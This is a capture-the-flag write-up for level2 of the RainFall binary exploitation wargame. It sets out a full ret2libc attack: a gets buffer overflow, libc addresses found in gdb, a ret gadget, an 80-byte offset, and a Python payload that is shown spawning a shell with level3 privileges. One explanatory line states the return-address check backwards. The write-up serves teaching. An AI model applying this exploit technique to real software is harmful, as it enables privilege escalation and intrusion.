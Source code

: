 # level2


The `level2` binary reads our input (again) and echoes it back to us.

Disassembling the binary reveals a call to a function called `p`.

```c
void p(void)

{
  uint unaff_retaddr;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
    exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}
```

There are two interesting things here:

1. The `gets` function is used to read our input. This function is vulnerable to buffer overflows.
2. The address of the return address is checked to see if it is in the `0xb0000000` range. This is the range of addresses that are mapped to the stack. If the return address is not in this range, the program exits.

What's annoying however is the fact that there is no call to `system` or `execve` in the binary. This means that we can't just overwrite the return address with the address of `system` and pass `/bin/sh` as an argument.

So, since the binary has the `libc` linked to it, we will do it ourselves.

We need these things :

- The address of the `system` function
- The address of the `/bin/sh` string (there's one in the `libc`)
- The address of a ROP gadget that will allow us to return before the `exit` call (a `ret` will do the trick)

We can find the address of the `system` function and the `/bin/sh` string by using `gdb`:

```bash
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) r
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x08048542 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) find 0xb7e6b060, +9999999, "/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
(gdb) 
```

To find our gadget we will use ROPGadget:

```bash
pip install ROPGadget
ROPgadget --binary level2 | grep 'ret'

0x080485c0 : repz ret
0x08048363 : ret # This one looks good
0x080484d0 : ror cl, 1 ; ret

```

| Name | Address |
| ---- | ------- |
| `system` | `0xb7e6b060` |
| `/bin/sh` | `0xb7f8cc58` |
| gadget | `0x08048363` |

One last thing we need is the size of the buffer. We can find it by using `gdb` w/ `gef`:

```bash
gdb level2
gef➤  pattern create 128
[+] Generating a pattern of 128 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
gef➤  r
Starting program: /home/user/level2/level2
<pattern>
[#0] Id 1, Name: "level2_bin", stopped 0x61616175 in ?? (), reason: SIGSEGV
```

0x61616175 = 'aaau', so our buffer is 80 bytes long.

Now we can write our exploit using Python and the `struct` module :

```python
import struct

SYSTEM_ADDY = 0xb7e6b060
BINSH_ADDY = 0xb7f8cc58
GADGET = 0x08048363
PAYLOAD = b'A' * 80

# Pack the address of the system function
PAYLOAD += struct.pack('I', GADGET) # Pack the address of the gadget
PAYLOAD += struct.pack('I', SYSTEM_ADDY) # I = unsigned int (4 bytes) in little endian
PAYLOAD += b'AAAA' # Here we need to put 4 bytes of padding because 4 bytes of the stacks gets popped
PAYLOAD += struct.pack('I', BINSH_ADDY) # Pack the address of the /bin/sh string

print(PAYLOAD)
```

```bash
level2@RainFall:~$ vi /tmp/gen_pl.py
level2@RainFall:~$ python /tmp/gen_pl.py > /tmp/pl_level2
level2@RainFall:~$ cat /tmp/pl_level2 - | ./level2
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
```